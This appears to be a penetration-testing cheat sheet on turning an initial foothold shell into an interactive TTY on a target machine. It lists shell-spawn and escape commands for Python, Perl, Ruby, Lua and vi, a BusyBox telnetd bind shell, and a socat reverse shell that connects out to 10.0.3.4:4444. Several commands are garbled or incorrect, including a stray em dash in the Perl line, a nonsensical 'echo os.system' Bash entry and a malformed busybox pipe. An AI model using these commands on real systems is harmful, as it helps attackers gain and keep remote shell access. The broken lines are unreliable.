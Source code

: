 # Spawning TTY Shell

After getting intial shell, the next step will be to "upgrading" shell into a fully interactive TTY so we can features such as interactive commands (such as su and ssh), text editors, tab complete, job control and more.

The quick win command using Python pty module:

```
python -c 'import pty;pty.spawn("/bin/bash")'
```

Then, set PATH and TERM if they are missing (allow also to acsses other bins):

```
export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
export TERM=xterm
export SHELL=bash
```

## Altrenate ways to spawn TTY shell

Use the following methods if Python not found on the target / not supported.

Bash:

```
echo os.system('/bin/bash')
/bin/sh -i
```

Perl:

```
perl —e 'exec "/bin/sh";'
perl: exec "/bin/sh";
```

Ruby console:

```
 exec "/bin/sh"
```
Lua console:

```
os.execute('/bin/sh')
```
Vi:

```
:!bash
:set shell=/bin/bash:shell
```

BusyBox:

```
/bin/busybox telnetd -|/bin/sh -p9999
```

Socat (altrenate to netcat):

```
socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.0.3.4:4444  
```

here are standalone binaries that can be downloaded from this awesome Github repo: https://github.com/andrew-d/static-binaries
